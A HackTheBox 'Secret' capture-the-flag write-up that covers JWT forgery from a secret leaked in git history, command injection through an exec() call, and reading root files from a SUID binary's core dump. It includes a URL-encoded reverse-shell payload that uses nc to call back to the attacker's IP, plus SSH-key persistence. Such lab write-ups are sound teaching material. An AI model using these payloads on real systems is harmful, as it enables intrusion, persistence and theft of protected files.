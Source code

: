 ```yaml
---
layout: single
title: Secret HTB writeup
excerpt: "Easy linux machine in which we hack a JWT, take advatage of the exec function and read files with a SUID binary"
date: 2022-01-01
classes: wide
header:
  teaser: /assets/images/secret/icon-secret.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - git
  - JWT
  - code review
---
```


![](/assets/images/secret/secret.png)

# SECRET
### User Flag

```bash
[kali@kali ~]$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.120
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63
```

We can try to follow the tutorial in the webpage to create an account, for example, using burp.

```
POST /api/user/register HTTP/1.1
Accept: application/json
Content-Type: application/json
Content-Length: 85

{
	"name": "Dasor_",
	"email": "testmail@mail.com",
	"password": "testtest"
}
```

Now, we log in:

```
POST /api/user/login HTTP/1.1
Accept: application/json
Content-Type: application/json
Content-Length: 85

{
	"email": "testmail@mail.com",
	"password": "testtest"
}
```

And we get our JWT token, but it is pretty useless since when we connect to `/api/priv` we just get a message telling us that we are normal users.

Now, we can download the source code of the page, which is in the main page (in `/download/files.zip`). If we take a look at `/routes/private.js`, we see that to be admin, the user's name must be `theadmin`. So we need to fake our JWT token, but first we need the secret. We find that there is a git repository of the source code of the webpage. If we take a look at the commits:

```bash
[kali@kali ~]$ git log --oneline
e297a27 (HEAD -> master) now we can view logs from server 😃
67d8da7 removed .env for security reasons
de0a46b added /downloads
4e55472 removed swap
3a367e7 added downloads
55fe756 first commit
```

and we take a look at the commit `67d8da7`, we'll find the secret. Now, we can create a JWT token with name 'theadmin' using, for example, `jwt.io`. With this token, the page says that we are admin, but we cannot do anything in the webpage. However, in the file `private.js`, we find:

```javascript
if (name == 'theadmin'){
    const getLogs = `git log --oneline ${file}`;
    exec(getLogs, (err , output) =>{
    if(err){
        res.status(500).send(err);
        return
    }
    ...
```

We can exploit the `exec` function and create a reverse shell using netcat (note that `nc -e` doesn't work on this machine):

```bash
[kali@kali ~]$ nc -lnvvvp 4444
listening on [any] 4444 ...
```
Now we exploit the `exec` function using burp with this request:

```
GET /api/logs?file=;mknod%20/tmp/backpipe%20p;%20/usr/bin/bash%200</tmp/backpipe%20|%20nc%2010.10.14.196%204444%201>%20/tmp/backpipe HTTP/1.1
...
auth-token: !!! your admin token !!!
```

with which we get user access:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
dasith@secret:~/local-web$ cat /home/dasith/user.txt
```

### Root flag

__TIP:__ _We can add our own ssh key to make the work flow easier_

```bash
dasith@secret:~/local-web$ cd /home/dasith/.ssh
dasith@secret:~/local-web$ echo 'yourkey' >> authorized_keys
```

In `/opt` we find a program called `count` that has the SUID bit set and is owned by root. Then, it can give us information about any file or directory. If we look at the code in code.c, we find:

```c
// drop privs to limit file write
setuid(getuid());
// Enable coredump generation
prctl(PR_SET_DUMPABLE, 1);
```

which means that, the program reads the file, then drops the privileges to the normal user and, if the program crashes, it will store a crash report in some location (readable by the normal user). The default route is `/var/crash`. Because the crash will contain the memory of the process, we can exploit this program to do privilege escalation:

```bash
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps -aux | grep count
root         827  0.0  0.1 235668  7404 ?        Ssl  20:16   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      1688  0.0  0.0   2488   592 pts/3    T    20:20   0:00 ./count
dasith      1691  0.0  0.0   6432   668 pts/3    S+   20:21   0:00 grep --color=auto count

dasith@secret:/opt$ kill -11 1688
dasith@secret:/opt$ fg
./count
Segmentation fault (core dumped)
```

Now that we have created a crash report, we need to make it readable by using:

```bash
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash-report
```

Finally, we can read the process memory in the `CoreDump` file in `/tmp/crash-report`, which contains the file read by the process.
